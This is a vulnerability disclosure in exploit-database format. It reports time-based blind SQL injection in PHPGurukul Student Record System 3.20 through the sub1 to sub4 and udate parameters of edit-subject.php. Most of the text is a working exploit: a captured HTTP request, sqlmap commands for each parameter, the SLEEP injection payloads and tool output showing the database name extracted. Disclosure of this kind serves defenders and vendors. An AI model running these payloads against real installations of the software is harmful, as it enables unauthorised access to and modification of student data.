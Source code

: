# Student Record System - SQL Injection - 4
+ **Exploit Title:** Student Record System - SQL Injection - 4
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/student-record-system-php/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7216
+ **Version:** 3.20
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student Record Managment System 3.20 allows SQL Injection via the 'sub1', 'sub2' , 'sub3', 'sub4' and 'udate' parameters in "http://localhost/studentrecordms/edit-subject.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/studentrecordms/manage-subjects.php"
+ Click edit button.
+ Then click update course button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /studentrecordms/edit-subject.php?sid=1 HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/studentrecordms/edit-subject.php?sid=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=16p8fmbt5nnt6j32qlumjroui0
Connection: close

sub1=C+Language&sub2=Operating+System&sub3=Data+Structure&sub4=Mathmatics&udate=01-04-2024&submit=Update+Course
```

+ Use sqlmap to exploit. In sqlmap, use 'sub1' parameter to dump the database.
```
sqlmap -r r.txt -p sub1 --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sub1 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=C Language' AND (SELECT 4008 FROM (SELECT(SLEEP(5)))dkGJ)-- dJtT&sub2=Operating System&sub3=Data Structure&sub4=Mathmatics&udate=01-04-2024&submit=Update Course
---
[01:51:59] [INFO] the back-end DBMS is MySQL
[01:51:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:52:04] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[01:52:04] [INFO] retrieved: 
[01:52:14] [INFO] adjusting time delay to 1 second due to good response times
studentrecorddb
current database: 'studentrecorddb''
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 085432](https://github.com/BurakSevben/CVEs/assets/117217689/52eb19cc-86d6-4033-ac3c-e6ae714529da)

## Sub 2 Parameter:

+ Use sqlmap to exploit. In sqlmap, use 'sub2' parameter to dump the database.
```
sqlmap -r r.txt -p sub2 --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sub2 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=C Language&sub2=Operating System' AND (SELECT 2954 FROM (SELECT(SLEEP(5)))PJYZ)-- qLNx&sub3=Data Structure&sub4=Mathmatics&udate=01-04-2024&submit=Update Course
---
[01:56:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:56:12] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[01:56:12] [INFO] resumed: studentrecorddb
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 085643](https://github.com/BurakSevben/CVEs/assets/117217689/f42b43bd-d408-4343-a292-7789c0d12860)


## Sub 3 Parameter:

+ Use sqlmap to exploit. In sqlmap, use 'sub3' parameter to dump the database.
```
sqlmap -r r.txt -p sub3 --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sub3 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=C Language&sub2=Operating System&sub3=Data Structure' AND (SELECT 2339 FROM (SELECT(SLEEP(5)))etVm)-- ouGg&sub4=Mathmatics&udate=01-04-2024&submit=Update Course
---
[01:59:34] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:59:34] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[01:59:34] [INFO] resumed: studentrecorddb
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 090809](https://github.com/BurakSevben/CVEs/assets/117217689/2330c124-2d31-4c35-9f08-cc97f8309aab)


## Sub 4 Parameter:

+ Use sqlmap to exploit. In sqlmap, use 'sub4' parameter to dump the database.
```
sqlmap -r r.txt -p sub4 --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sub4 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=C Language&sub2=Operating System&sub3=Data Structure&sub4=Mathmatics' AND (SELECT 7347 FROM (SELECT(SLEEP(5)))xCWP)-- TSCI&udate=01-04-2024&submit=Update Course
---
[02:11:14] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[02:11:14] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[02:11:14] [INFO] resumed: studentrecorddb
current database: 'studentrecorddb
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 091140](https://github.com/BurakSevben/CVEs/assets/117217689/7b7ad9b8-e4c3-4814-8058-de6f453ac93c)

## udate Parameter:

+ Use sqlmap to exploit. In sqlmap, use 'udate' parameter to dump the database.
```
sqlmap -r r.txt -p udate --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: udate (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=C Language&sub2=Operating System&sub3=Data Structure&sub4=Mathmatics&udate=01-04-2024' AND (SELECT 7763 FROM (SELECT(SLEEP(5)))YChG)-- jZwB&submit=Update Course
---
[02:14:31] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[02:14:31] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[02:14:31] [INFO] resumed: studentrecorddb
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 091553](https://github.com/BurakSevben/CVEs/assets/117217689/c3b8940f-75f4-4818-9474-dee6c3c3e0df)

